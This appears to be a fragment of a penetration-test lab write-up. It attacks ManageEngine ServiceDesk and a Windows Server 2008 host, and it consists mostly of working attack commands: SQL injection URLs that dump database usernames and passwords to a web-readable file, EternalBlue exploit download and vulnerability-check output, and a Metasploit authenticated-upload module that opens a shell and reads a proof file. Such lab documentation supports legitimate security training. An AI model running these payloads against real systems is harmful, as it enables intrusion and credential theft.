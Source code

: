 ```bash
/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID=1)%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,concat("---",user,"---")%20FROM%20mysql.user%20INTO%20DUMPFILE%20'C:\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\user.html'/*
# output
# root

# Password
/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID=1)%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,concat("---",password,"---")%20FROM%20mysql.user%20INTO%20DUMPFILE%20'C:\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\password.html'/*
# output
# (none)
```

### EternalBlue
Downloading the exploit.
```bash
wget https://github.com/worawit/MS17-010.git
cd MS17-010
pip install impacket
```

Checking if the target is vulnerable - it is, but Windows Vista+ does not allow anonymous users to access Named Pipes. 
```bash
python checker.py 192.168.107.43

# output
Target OS: Windows Server (R) 2008 Standard 6001 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_OBJECT_NAME_NOT_FOUND
```

### Metasploit
multi/http/manageengine_auth_upload
```bash
msfconsole
search manageengine 7
use multi/http/manageengine_auth_upload
set USERNAME administrator
set PASSWORD administrator
set RHOST 192.168.54.43
set LHOST tun0
run
shell
whoami
cd C:\Users\Administrator\Desktop\
type proof.txt
```
